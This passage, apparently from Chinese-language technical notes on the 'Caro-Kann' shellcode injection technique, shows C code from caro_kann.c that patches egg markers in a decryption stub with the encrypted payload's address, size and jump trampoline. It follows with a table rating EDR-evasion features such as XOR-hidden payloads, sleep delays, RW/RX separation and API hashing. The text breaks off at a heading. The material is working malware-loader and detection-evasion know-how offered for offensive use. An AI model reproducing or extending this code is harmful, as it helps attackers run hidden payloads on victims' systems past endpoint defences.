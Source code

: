 ### Egg Hunting 机制

| Egg | Pattern | 用途 | 替换时机 |
|-----|---------|------|---------|
| Egg 1 | `0x8888888888888888` | Encrypted payload 地址 | 注入时 |
| Egg 2 | `0xDEAD10AF` | Payload 大小 | 注入时 |
| Egg 3 | `0x0000000000000000` | Jump trampoline 地址 | 注入时 |

**Egg替换代码**（已实现）：
```c
// caro_kann.c:PatchDecryptStubEggs()
for (size_t i = 0; i < decryptStubSize - 7; i++) {
    // Egg 1: Payload Address
    if (memcmp(&decryptStub[i], "\x88\x88\x88\x88\x88\x88\x88\x88", 8) == 0) {
        memcpy(&decryptStub[i], &encryptedPayloadAddr, 8);
        printf("[+] Patched Payload Address Egg at offset: 0x%zX\n", i);
    }

    // Egg 2: Payload Size
    if (memcmp(&decryptStub[i], "\xAF\x10\xAD\xDE", 4) == 0) {
        memcpy(&decryptStub[i], &encryptedPayloadSize, 4);
        printf("[+] Patched Payload Size Egg at offset: 0x%zX\n", i);
    }

    // Egg 3: Jump Address (in trampoline)
    if (memcmp(&decryptStub[i], "\x00\x00\x00\x00\x00\x00\x00\x00", 8) == 0 &&
        decryptStub[i-2] == 0x49 && decryptStub[i-1] == 0xBA) {  // mov r10, addr
        memcpy(&decryptStub[i], &encryptedPayloadAddr, 8);
        printf("[+] Patched Jump Address at offset: 0x%zX\n", i);
    }
}
```

## 技术优势（理论）

| 特性 | 描述 | EDR检测难度 |
|-----|------|------------|
| ✅ **绕过内核扫描** | 扫描时只看到加密数据 | ⭐⭐⭐⭐⭐ |
| ✅ **双重架构** | Payload与执行逻辑分离 | ⭐⭐⭐⭐⭐ |
| ✅ **XOR加密** | 隐藏恶意特征 | ⭐⭐⭐⭐ |
| ✅ **Sleep延迟** | 避开即时扫描 | ⭐⭐⭐⭐ |
| ✅ **RW/RX分离** | Payload在RW，解密器在RX | ⭐⭐⭐⭐⭐ |
| ✅ **API Hashing** | 动态解析API，无Import表 | ⭐⭐⭐⭐⭐ |

## 原版实现分析
